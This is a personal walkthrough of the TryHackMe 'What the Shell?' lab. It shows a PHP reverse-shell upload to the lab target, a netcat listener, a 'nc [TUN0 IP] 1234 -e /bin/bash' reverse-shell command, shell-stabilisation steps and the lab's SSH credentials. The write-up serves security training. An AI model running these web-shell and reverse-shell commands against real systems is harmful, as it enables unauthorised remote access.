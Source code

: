 # TRYHACKME : What the Shell?
***NOTE: Documented this incase I'll be using the same method to other ctf challenges.***

## Linux Shell
> Start the linux machine from **Task 14** and set up your ovpn if you're using local machine.

### Webshell
> Go to `/usr/share/webshells/php`.
> Get a copy of the file `php-reverse-shell.php`, then rename it into `rshell.php`.
>
> Open the file. Then edit the `$ip` to be your tun0 IP. You can change the `$port` or leave it as it is, which is `1234`.
>
> Open **browser** and input the http of the **target machine**.
>
> Browse the `rshell.php` and submit it. Then proceed into `uploads/` directory. Don't click `rshell.php` yet.
>
> Then into your **terminal**, open **netcat** listener: `nc -lvnp 1234`
>
> Back to your broswer, and concatenate this beside `uploads/`: `rshell.php?cmd=nc [TUN0 IP] 1234 -e /bin/bash`.
>
> Go back to terminal and you can now access the reverse shell.

### Stabilize Netcat
*Credits to [YCZHU](https://medium.com/@zycc2727/tryhackme-what-the-shell-61b54eda78e6)*
> In the reverse shell:
```
> python3 -c 'import pty;pty.spawn("/bin/bash")' // try python, python2, and python3 in order
> export TERM=xterm
// hit `ctrl + z` to bg terminal
> stty raw -echo; fg
[1] + continued nc -lvnp 1234
```

### Experiment with Bind & Reverse Netcat Shells
> Let's now proceed connecting through SSH with the given credentials:
> 
> **Username:** shell **Password:** TryH4ckM3!
```
ssh shell@[TARGET IP]
```
